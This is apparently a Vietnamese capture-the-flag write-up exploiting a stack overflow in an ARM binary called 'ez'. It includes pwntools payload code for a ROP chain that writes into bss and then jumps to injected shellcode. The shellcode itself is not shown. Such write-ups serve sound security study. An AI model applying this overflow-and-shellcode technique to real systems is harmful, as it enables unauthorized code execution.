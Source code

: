 Đề cho ta file **ez** ARM</br>
![image](https://user-images.githubusercontent.com/23306492/40377949-5ffd91d4-5e1c-11e8-9387-96e85cce524d.png)</br>
disable toàn bộ</br>
![image](https://user-images.githubusercontent.com/23306492/40377995-7dfa49a2-5e1c-11e8-9bd7-c8fe8c856715.png)</br>
Hàm `main` ta thấy lỗi ở đây là stack overflow</br>
![image](https://user-images.githubusercontent.com/23306492/40378321-6b083c36-5e1d-11e8-8719-0709df31c667.png)
</br>
Với bài này ta cần ghi đè shellcode và jump về địa chỉ shellcode</br>
Trước tiên ta cần ROP để có thể input vào bss</br>
```
pop_r3_pc = 0x102f0
bss = 0x21028
main = 0x10421
payload = 'A'*20
payload += p32(bss)
payload += p32(pop_r3_pc)
payload += p32(bss)
payload += p32(main)
r.sendline(payload)
````
 Sau đó quay trở lại `mov  R1,R3`và input lại lần 2 để có thể jump đến shellcode_address</br>
![image](https://user-images.githubusercontent.com/23306492/40378386-966751e6-5e1d-11e8-873e-ce9ef22351b8.png)</br>
```
payload = 'A'*28
payload += p32(bss+0x20)
payload += shellcode
r.sendline(payload)
```
[payload](url)</br>
![image](https://user-images.githubusercontent.com/23306492/40378289-4eece8d0-5e1d-11e8-8cef-2e473f5e03f5.png)

